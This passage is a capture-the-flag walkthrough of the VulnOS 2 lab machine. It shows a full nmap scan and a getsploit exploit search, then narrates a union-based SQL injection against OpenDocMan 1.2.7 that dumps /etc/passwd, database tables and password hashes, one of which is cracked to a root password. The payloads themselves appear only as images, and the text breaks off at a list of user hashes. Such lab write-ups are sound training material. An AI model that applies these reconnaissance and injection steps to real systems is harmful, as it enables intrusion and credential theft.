VulnOS: 2
Service discovery:
First, I fired up HaGashash in order to gain some information about which host to attack and what interesting services run there. (https://github.com/Gandosha/HaGashash).
[GandoPC ~]# go run go/src/github.com/Gandosha/HaGashash/main.go -interface=enp0s3 -project=VulnOsV2 -subnet=true <-=|HaGashash by Gandosha|=-> [+] nmap executable is in '/usr/bin/nmap' [+] ifconfig executable is in '/usr/bin/ifconfig' [!] Dependencies check is completed successfully. [!] Starting to scan your subnet. [+] Alive hosts in 192.168.43.0/24 are: 192.168.43.1 192.168.43.2 192.168.43.3 192.168.43.4 [+] Directory created at: /HaGashash_Projects/VulnOsV2/192.168.43.1. [!] Starting to scan 192.168.43.1 for TCP interesting stuff. [!] Starting to scan 192.168.43.1 for UDP interesting stuff. [+] Directory created at: /HaGashash_Projects/VulnOsV2/192.168.43.2. [!] Starting to scan 192.168.43.2 for TCP interesting stuff. [!] Starting to scan 192.168.43.2 for UDP interesting stuff. [+] Directory created at: /HaGashash_Projects/VulnOsV2/192.168.43.3. [!] Starting to scan 192.168.43.3 for TCP interesting stuff. [!] Starting to scan 192.168.43.3 for UDP interesting stuff. [+] Directory created at: /HaGashash_Projects/VulnOsV2/192.168.43.4. [!] Starting to scan 192.168.43.4 for UDP interesting stuff. [!] Starting to scan 192.168.43.4 for TCP interesting stuff. [+] Nmap's TCP script scanning on 192.168.43.4 is completed successfully. [+] Nmap's UDP script scanning on 192.168.43.4 is completed successfully. [+] Nmap's TCP script scanning on 192.168.43.3 is completed successfully. [+] Nmap's TCP script scanning on 192.168.43.1 is completed successfully. [+] Nmap's TCP script scanning on 192.168.43.2 is completed successfully. [+] Nmap's UDP script scanning on 192.168.43.3 is completed successfully. [+] Nmap's UDP script scanning on 192.168.43.2 is completed successfully. [+] Nmap's UDP script scanning on 192.168.43.1 is completed successfully. [+] Summary file for 192.168.43.4 is ready. [+] Summary file for 192.168.43.3 is ready. [+] Summary file for 192.168.43.2 is ready. [+] Summary file for 192.168.43.1 is ready. [gandosha@GandoPC 192.168.43.3]$ cat nmap_TCP_scan_output # Nmap 7.70 scan initiated Thu Oct 18 02:15:34 2018 as: nmap -sS -p- -A -T4 -Pn -vv -oN /HaGashash_Projects/VulnOsV2/192.168.43.3/nmap_TCP_scan_output 192.168.43.3 mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers Nmap scan report for 192.168.43.3 Host is up, received arp-response (0.0024s latency). Scanned at 2018-10-18 02:15:36 IDT for 34s Not shown: 65532 closed ports Reason: 65532 resets PORT STATE SERVICE REASON VERSION 22/tcp open ssh syn-ack ttl 64 OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.6 (Ubuntu Linux; protocol 2.0) | ssh-hostkey: | 1024 f5:4d:c8:e7:8b:c1:b2:11:95:24:fd:0e:4c:3c:3b:3b (DSA) | ssh-dss AAAAB3NzaC1kc3MAAACBAORRAsDcJJtkwMruX4yXojqiox8ni/JHNX/zgwtmPcfLkENKY5bYD1dMpASvE0K9Gh5Mo4U/yycRK9xHGLMssBBr5F8QOq8I66Ee7kOG+CJzT+g5Fhl+0R5pI2+kEGSipf+mL1A1HA9JYm87rNWkG3mI5cS4J2okX2CMZGPYucflAAAAFQCdR4coK0rgndw4wMd7SCCewTd5QQAAAIBGnb2CKZQhnmy7G/Dublt921HOMTOb3jXJugIp/Q0g9sQEkYQoEEXOS5+kDVODt7C1rgZQzvY4eX2gnEcW38esIIYVX5j54bV7RpcYTs+3onSvpLJJJudFOF8jS/J53DeiQ9sS68bCDi1K7h7f5dLeaemKJz8j42/8mdUpEZ+xHAAAAIBXyrkDziSMSuaCSxkfwFMzlqFWNI5EszgByhcHsuNYhrRryrZkC/Jq7ypWv2vt1zlkem9z/l5eX7gxwhckbQgPHqKxtmfznzoosQ0EoHAnG+bO7VXDM1yFl5xCXBLFvFlE6QjYJBcrtz9jeAJHUlyXAYIrSthz6y4OCc0rGAxC+g== | 2048 ff:19:33:7a:c1:ee:b5:d0:dc:66:51:da:f0:6e:fc:48 (RSA) | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDpuBQNKY6U8FF+8yJgjCqn0f9MJ1rCgGLo2HdvhWvbgyOxmvf4mg47Oi4OWjpD7oiiaawPLFJfUPhBl7CVLLnMQxM6MDdmJP1qSl6slA52KB9Qt8hvPiatY9yF2UzTQ+riP9g2n6D9QQruSVQQFsKUeJvte2X7EApMmmXSQ1L/Qziio1mFu4tvqckMsfdjlYnFSRSdKoorT/7/Vw0sBUzDNsSsGq8tA3rqGOKmj3JdS0H0FGEciLFyIx9/rLC2bHc03l2V08Y8MozB3TQTcO6lvxpFgSAEPmNglCAMSZOIFmdIvpmi5FfHsVuP6O94twetVHq0CyvihY8SoXQoiqib | 256 ae:d7:6f:cc:ed:4a:82:8b:e8:66:a5:11:7a:11:5f:86 (ECDSA) | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMTthIC3/w1NQVyFFPrMh63/cVUWJylryc7v9Whbab9DKivYIWxffvI6HJpjeMm63ChJV9HjkbtGBbKhnNeRJ64= | 256 71:bc:6b:7b:56:02:a4:8e:ce:1c:8e:a6:1e:3a:37:94 (ED25519) |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMx/VEravl9aUxne0KuM0Eexc8iu9sMLlyKfDQJ7XIn4 80/tcp open http syn-ack ttl 64 Apache httpd 2.4.7 ((Ubuntu)) | http-methods: |_ Supported Methods: POST OPTIONS GET HEAD |_http-server-header: Apache/2.4.7 (Ubuntu) |_http-title: VulnOSv2 6667/tcp open irc syn-ack ttl 64 ngircd MAC Address: 08:00:27:57:4F:AA (Oracle VirtualBox virtual NIC) Device type: general purpose Running: Linux 3.X|4.X OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 OS details: Linux 3.2 - 4.9 TCP/IP fingerprint: OS:SCAN(V=7.70%E=4%D=10/18%OT=22%CT=1%CU=41187%PV=Y%DS=1%DC=D%G=Y%M=080027% OS:TM=5BC7C2BA%P=x86_64-unknown-linux-gnu)SEQ(SP=F7%GCD=1%ISR=111%TI=Z%CI=I OS:%II=I%TS=8)OPS(O1=M5B4ST11NW7%O2=M5B4ST11NW7%O3=M5B4NNT11NW7%O4=M5B4ST11 OS:NW7%O5=M5B4ST11NW7%O6=M5B4ST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=71 OS:20%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M5B4NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=4 OS:0%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O OS:=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40 OS:%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q OS:=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y OS:%DFI=N%T=40%CD=S) Uptime guess: 0.005 days (since Thu Oct 18 02:09:25 2018) Network Distance: 1 hop TCP Sequence Prediction: Difficulty=247 (Good luck!) IP ID Sequence Generation: All zeros Service Info: Host: irc.example.net; OS: Linux; CPE: cpe:/o:linux:linux_kernel TRACEROUTE HOP RTT ADDRESS 1 2.38 ms 192.168.43.3 Read data files from: /usr/bin/../share/nmap OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . # Nmap done at Thu Oct 18 02:16:10 2018 -- 1 IP address (1 host up) scanned in 37.12 seconds
Port 80 check:
Attempt to access via http port 80:

Spidering and fuzzing revealed another path on the web server:
A login interface has discovered:
I looked for vulnerabilities in this version using getsploit.py:
[gandosha@GandoPC ~]$ getsploit OpenDocMan 1.2.7 Total found exploits: 5 Web-search URL: https://vulners.com/search?query=bulletinFamily%3Aexploit+AND+OpenDocMan+1.2.7 +----------------------+--------------------------------+----------------------------------------------------+ | ID | Exploit Title | URL | +======================+================================+====================================================+ | SSV:85377 | OpenDocMan 1.2.7 - Multiple | https://vulners.com/seebug/SSV:85377 | | | Vulnerabilities | | +----------------------+--------------------------------+----------------------------------------------------+ | SSV:61717 | OpenDocMan | https://vulners.com/seebug/SSV:61717 | +----------------------+--------------------------------+----------------------------------------------------+ | PACKETSTORM:125571 | OpenDocMan 1.2.7 SQL Injection | https://vulners.com/packetstorm/PACKETSTORM:125571 | | | / Access Control | | +----------------------+--------------------------------+----------------------------------------------------+ | 1337DAY-ID-21984 | OpenDocMan 1.2.7 - Multiple | https://vulners.com/zdt/1337DAY-ID-21984 | | | Vulnerabilities | | +----------------------+--------------------------------+----------------------------------------------------+ | EDB-ID:32075 | OpenDocMan 1.2.7 - Multiple | https://vulners.com/exploitdb/EDB-ID:32075 | | | Vulnerabilities | | +----------------------+--------------------------------+----------------------------------------------------+
A SQL injection vulnerability was found:
SQL injection (union-based):
MySQL version:
Running user:
"root" is not an admin:
/etc/passwd output:
Users and their password hashes from mysql database:
Crackstation managed to crack one of the password hashes:
Unfortunately, I could not connect using U:root,P:toor via SSH to the machine.
Next, databases:
Jabcd0cs database tables:
*jabcd0cs == 0x6a61626364306373 (In hex).
Columns in odm_user table:
*odm_user == 0x6f646d5f75736572 (In hex).
Jabcd0cs users and their hashes:
